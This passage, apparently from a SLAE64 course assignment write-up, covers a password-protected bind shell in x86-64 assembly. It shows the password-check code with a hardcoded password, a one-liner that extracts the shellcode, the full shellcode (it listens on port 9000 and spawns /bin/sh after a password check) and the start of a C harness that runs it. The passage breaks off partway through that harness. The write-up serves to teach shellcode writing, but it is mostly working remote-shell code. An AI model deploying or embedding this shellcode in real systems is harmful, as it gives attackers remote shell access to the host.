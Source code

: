 ```term

        mov rsi, rsp           ; Copies the value of RSP into RSI.

        xor rcx, rcx           ; Zeroes out RCX
        mov cl, 16             ; Gives CL a value of 16. This value should remain the same length as the password (WjbkN3yQRpKVEFbA), as this value will be crucial for 
                               ; comparison.
                               ; If given less, the complete password isn't needed. If given more, the credential will not work even if sent correctly.

        repe cmpsb             ; Will compare the strings and check if such match. If they do, it sets the Zero flag (ZF).
        jnz halt               ; Jump if the as long as the Zero flag (ZF) is not set, this means that if the password is incorrect, it should redirect the flow to the error 
                               ; message.
```

#### Final Code

The full code can be found [here](https://github.com/whitecr0wz/SLAE/blob/main/SLAE64/Assignment_1/1.asm)

#### Shellcode

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; 
done;echo 
\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x66\x6a\x29\x66\x58\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x52\x0f\x05\x48\x89\xc3\x66\x6a\x31\x66\x58\x48\x89\xdf\x52\x52\x66\x68\
x23\x28\x66\x6a\x02\x48\x89\xe6\xb2\x1e\x0f\x05\x66\x6a\x32\x66\x58\x48\x89\xdf\x48\x31\xf6\x0f\x05\x66\x6a\x2b\x66\x58\x48\x89\xdf\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc5\x
48\xff\xc6\x48\xff\xc6\x48\xff\xc6\x66\x6a\x21\x66\x58\x48\x89\xef\x48\xff\xce\x0f\x05\x75\xf1\xeb\x4d\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x57\x5d\x55\xfe\xc0\x48\xf
f\xc7\x66\x83\xc6\x20\x56\x48\x31\xf6\x48\xbe\x65\x6e\x74\x69\x61\x6c\x73\x2e\x56\x48\x31\xf6\x48\x81\xc6\x63\x72\x65\x64\x56\x48\x31\xf6\x66\x81\xc6\x74\x20\x56\x48\xbe\x49\x6e
\x63\x6f\x72\x72\x65\x63\x56\x48\x89\xe6\xb2\x22\x0f\x05\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x57\x5d\x55\xfe\xc0\x48\xff\xc7\x48\xbe\x61\x73\x73\x77\x6f\x72\x64\x3a\
x56\x48\xbe\x65\x20\x79\x6f\x75\x72\x20\x70\x56\x48\xbe\x49\x6e\x74\x72\x6f\x64\x75\x63\x56\x48\x89\xe6\xb2\x1c\x0f\x05\x48\x31\xc0\x48\x31\xff\x48\x31\xd2\x52\x5d\x55\x48\x89\x
e6\xb2\x1e\x0f\x05\x48\x89\xe7\x48\x31\xc0\x48\x31\xf6\x48\x31\xd2\x48\xbe\x52\x70\x4b\x56\x45\x46\x62\x41\x56\x48\xbe\x57\x6a\x62\x6b\x4e\x33\x79\x51\x56\x48\x89\xe6\x48\x31\xc
9\xb1\x10\xf3\xa6\x0f\x85\x32\xff\xff\xff\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x66\x6a\x3b\x66\x58\x0f\x05
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1$
```

Let's execute this within the C format:

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x66\x6a\x29\x66\x58\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x52\x0f\x05\x48\x89\xc3\x66\x6a\x31\x66\x58\x48\x89\xdf\x52\x52\x66\x68
\x23\x28\x66\x6a\x02\x48\x89\xe6\xb2\x1e\x0f\x05\x66\x6a\x32\x66\x58\x48\x89\xdf\x48\x31\xf6\x0f\x05\x66\x6a\x2b\x66\x58\x48\x89\xdf\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc5\
x48\xff\xc6\x48\xff\xc6\x48\xff\xc6\x66\x6a\x21\x66\x58\x48\x89\xef\x48\xff\xce\x0f\x05\x75\xf1\xeb\x4d\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x57\x5d\x55\xfe\xc0\x48\x
ff\xc7\x66\x83\xc6\x20\x56\x48\x31\xf6\x48\xbe\x65\x6e\x74\x69\x61\x6c\x73\x2e\x56\x48\x31\xf6\x48\x81\xc6\x63\x72\x65\x64\x56\x48\x31\xf6\x66\x81\xc6\x74\x20\x56\x48\xbe\x49\x6
e\x63\x6f\x72\x72\x65\x63\x56\x48\x89\xe6\xb2\x22\x0f\x05\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x57\x5d\x55\xfe\xc0\x48\xff\xc7\x48\xbe\x61\x73\x73\x77\x6f\x72\x64\x3a
```